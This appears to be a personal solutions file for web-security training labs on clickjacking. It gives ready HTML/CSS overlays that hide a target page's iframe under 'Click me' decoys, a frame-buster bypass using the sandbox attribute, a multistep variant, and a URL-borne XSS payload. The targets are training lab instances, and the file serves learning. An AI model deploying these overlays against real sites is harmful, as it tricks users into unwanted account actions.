 # Clickjacking (UI redressing)

### Overview

- Assume that the user is already logged in

- Your clickjacking element MUST have the word click in it

- Follow the instructions on each lab CAREFULLY

### Lab: Basic clickjacking with CSRF token protection

```
<style>
    iframe {
        position:relative;
        width:1000;
        height: 600;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:520;
        left:30;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ac5005003bb3155c06a20c800700051.web-security-academy.net/my-account"></iframe>
```

### Lab: Clickjacking with form input data prefilled from a URL parameter

```
<style>
    iframe {
        position:relative;
        width:1000;
        height: 650;
        opacity: 0.000005;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450;
        left:70;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0acb00d504c7e976c00c2ef400880068.web-security-academy.net/my-account?email=asd@asd.com"></iframe>
```

### Lab: Clickjacking with a frame buster script

```
<style>
    iframe {
        position:relative;
        width:1000;
        height: 650;
        opacity: 0.000000000005;
        z-index: 2;
    }
    div {
        position:absolute;
        top:475;
        left:70;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a7e00690477e199c07c23a000e300e5.web-security-academy.net/my-account?email=asd@asd.com" sandbox="allow-forms"></iframe>
```

### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

```
<style>
    iframe {
        position:relative;
        width:1000;
        height: 1000;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:880;
        left:70;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a5e0079037659afc072117300640016.web-security-academy.net/feedback?name=%3Cimg%20src=%22cid:asdasdasd%22%20onerror=%22print()%22%3E&email=asd@asd.com&subject=asd&message=asd#feedbackResult"></iframe>
```

https://support.google.com/richmedia/answer/190941?hl=en#:~:text=In%20a%20URL%2C%20a%20hash,of%20the%20page%20or%20website.


### Multistep clickjacking

```
<style>
    iframe {
        position:relative;
        width:1000;
        height: 600;
        opacity: 0.5;
        z-index: 2;
    }
    div.first {
        position:absolute;
        top:510;
        left:60;
        z-index: 1;
    }
    div.second {
        position:absolute;
        top:310;
        left:200;
        z-index: 1;
    }
</style>
<div class="first">Click me first</div>
<div class="second">Click me next</div>
<iframe src="https://0af600c904cf184ac065347700da0030.web-security-academy.net/my-account"></iframe>
```





